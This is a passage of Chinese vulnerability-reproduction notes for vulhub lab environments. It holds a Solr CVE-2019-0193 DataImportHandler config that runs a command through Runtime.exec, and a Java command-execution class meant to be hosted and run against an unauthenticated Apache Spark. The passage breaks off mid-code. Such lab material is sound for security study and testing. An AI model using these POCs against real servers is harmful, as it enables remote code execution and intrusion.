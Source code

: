 # **[Apache Solr 远程命令执行漏洞（CVE-2019-0193）](https://vulhub.org/#/environments/solr/CVE-2019-0193/)**

## 漏洞复现

如上图所示，首先打开刚刚创建好的test核心，选择Dataimport功能并选择debug模式，填入以下POC：
```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

> 点击Execute with this Confuguration会发送以下请求包.

# **[Apache Spark 未授权访问漏洞](https://vulhub.org/#/environments/spark/unacc/)**

## [漏洞利用](https://weibo.com/ttarticle/p/show?id=2309404187794313453016)

## 漏洞复现POC

将其编译成JAR，放在任意一个HTTP或FTP上：

```
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
```
